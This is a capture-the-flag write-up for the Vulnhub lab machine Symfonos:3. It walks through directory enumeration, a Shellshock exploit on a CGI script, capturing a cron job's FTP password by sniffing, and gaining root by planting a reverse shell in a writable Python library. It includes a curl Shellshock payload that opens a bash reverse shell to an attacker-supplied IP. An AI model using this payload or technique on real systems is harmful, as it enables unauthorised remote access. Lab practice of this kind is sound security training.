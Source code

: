 # Symfonos:3 - Writeup 

Symfonos:3 is an Intermediate real-life based machine from Vulnhub by Zayotic.<br />
This machine is designed to test your skill at enumeration.<br />
The description says "If you get stuck remember to try different wordlist, avoid rabbit holes and enumerate everything thoroughly".<br />
Link to the machine: [https://www.vulnhub.com/entry/symfonos-3,332/](https://www.vulnhub.com/entry/symfonos-3,332/)
<br />

## Target Discovery

I'll use `netdiscover` to identify our target.

```
┌─[a7@Parrot]─[~/Desktop/vulnHub/Symfonos:3]
└──╼ $sudo netdiscover -i vboxnet0 -r 10.10.10.0/24 

Currently scanning: Finished!   |   Screen View: Unique Hosts

2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 102
_____________________________________________________________________________
	IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
10.10.10.1      08:00:27:ec:0e:9c      1      42  PCS Systemtechnik GmbH
10.10.10.10     08:00:27:7d:79:ff      1      60  PCS Systemtechnik GmbH
```

<br />

## Ports and Services

Let's scan our target for any running services and their version.

![](Pics/nmap.png)
<br />
<br />

## FTP Enumeration

Starting with the ftp, anonymous login is not allowed.

![](Pics/ftp.png)
<br />
<br />

## Web Enumeration

Let's visit the website.

![](Pics/web.png)
<br />
<br />

Just another picture, but inspecting the source code and we got a comment.

![](Pics/web2.png)
<br />
<br />

Great! Let's bust the directories.

![](Pics/enum.png)
<br />
<br />

We got a directory `/gate`, let's open it.

![](Pics/web3.png)
<br />
<br />

And another picture, let's brute-force `gate` with different wordlists.

![](Pics/enum2.png)
<br />
<br />

We got `/cerberus`, let's browse it.

![](Pics/web4.png)
<br />
<br />

Brute-force again and we got `tartarus`.

![](Pics/web5.png)
<br />
<br />

Inspecting the source code.

![](Pics/web6.png)
<br />
<br />

Ok, let's brute-force again.

![](Pics/enum3.png)
<br />
<br />

We got `/research` and `/hermes`, let's visit them.

![](Pics/web7.png)
<br />
<br />

![](Pics/web8.png)
<br />
<br />

Dead End. Start to enumerate from the beginning.<br />
After using different wordlists, we found another directory.

![](Pics/enum4.png)
<br />
<br />

Let's visit `http://10.10.10.10/cgi-bin/underworld`.

![](Pics/web9.png)
<br />
<br />

Searching for any exploit.

![](Pics/web10.png)
<br />
<br />

Let's test if it's vulnerable.

![](Pics/web11.png)
<br />
<br />

## Getting Access

It's vulnerable to shellshock, let's find an exploit.

![](Pics/exp.png)
<br />
<br />

There's a Metasploit exploit, but I'll use curl, start a listener and run:<br />
`curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<Your-IP>/<PORT> 0>&1' http://10.10.10.10/cgi-bin/underworld`

![](Pics/shell.png)
<br />
<br />

After running linpeas to escalate our privileges, nothing found, upload pspy and run it.

![](Pics/priv.png)
<br />
<br />

We've got `/opt/ftpclient/ftpclient.py` it's run by root "UID=0", looks like a cron job.<br />
We'll sniff the traffic with `tcpdump -vi lo`.

![](Pics/priv2.png)
<br />
<br />

As we see, user `hades` logged in with the password `PTpZTfU4vxgzvRBE`, let's try to switch to hades.

![](Pics/priv3.png)
<br />
<br />

## Root Access

Now, let's head to `/opt/ftpclient/`.

![](Pics/priv4.png)
<br />
<br />

Tried to replace the `ftpclient.py` file with a Python reverse shell, but it's unwritable by hades, but we may write on `ftplib` file, let's find it first.


![](Pics/find.png)
<br />
<br />

We could write in `/usr/lib/python2.7/ftplib.py` with our permissions, let's write a reverse shell.

![](Pics/priv5.png)
<br />
<br />

Now, just wait for the cronjob to run.

![](Pics/root.png)
<br />